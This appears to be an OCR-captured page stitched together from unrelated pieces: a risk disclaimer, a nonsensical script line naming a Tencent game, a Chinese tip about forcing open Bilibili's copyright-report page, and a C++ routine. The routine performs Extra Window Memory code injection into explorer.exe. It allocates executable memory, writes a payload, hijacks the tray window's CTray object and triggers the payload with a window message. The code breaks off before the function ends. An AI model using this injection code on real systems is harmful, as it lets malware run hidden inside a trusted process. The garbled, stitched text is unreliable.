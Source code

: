 
## ANY USE OF THE SOFTWARE IS ENTIRELY AT YOUR OWN RISK.

<script>
package.find("三角洲行动").utils.tencent.triggerAnimation(1, 3000, 5);
</script>

**如果对方的主页里没有视频，可以用这个链接强制进入盗搬稿件举报页面[doge_金箍][doge_金箍]**

**链接：**
https://www.bilibili.com/pc/community/copyright/index?navhide=1&mid=加上对方UID



```cpp
LPVOID ewm(LPVOID payload, DWORD payloadSize){
    LPVOID    cs, ds;
    CTray     ct;
    ULONG_PTR ctp;
    HWND      hw;
    HANDLE    hp;
    DWORD     pid;
    SIZE_T    wr;
    
    // 1. Obtain a handle for the shell tray window
    hw = FindWindow("Shell_TrayWnd", NULL);

    // 2. Obtain a process id for explorer.exe
    GetWindowThreadProcessId(hw, &pid);
    
    // 3. Open explorer.exe
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    
    // 4. Obtain pointer to the current CTray object
    ctp = GetWindowLongPtr(hw, 0);
    
    // 5. Read address of the current CTray object
    ReadProcessMemory(hp, (LPVOID)ctp, 
        (LPVOID)&ct.vTable, sizeof(ULONG_PTR), &wr);
    
    // 6. Read three addresses from the virtual table
    ReadProcessMemory(hp, (LPVOID)ct.vTable, 
      (LPVOID)&ct.AddRef, sizeof(ULONG_PTR) * 3, &wr);
    
    // 7. Allocate RWX memory for code
    cs = VirtualAllocEx(hp, NULL, payloadSize, 
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // 8. Copy the code to target process
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
    
    // 9. Allocate RW memory for the new CTray object
    ds = VirtualAllocEx(hp, NULL, sizeof(ct), 
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    
    // 10. Write the new CTray object to remote memory
    ct.vTable  = (ULONG_PTR)ds + sizeof(ULONG_PTR);
    ct.WndProc = (ULONG_PTR)cs;
    
    WriteProcessMemory(hp, ds, &ct, sizeof(ct), &wr); 

    // 11. Set the new pointer to CTray object
    SetWindowLongPtr(hw, 0, (ULONG_PTR)ds);
    
    // 12. Trigger the payload via a windows message
    PostMessage(hw, WM_CLOSE, 0, 0);
```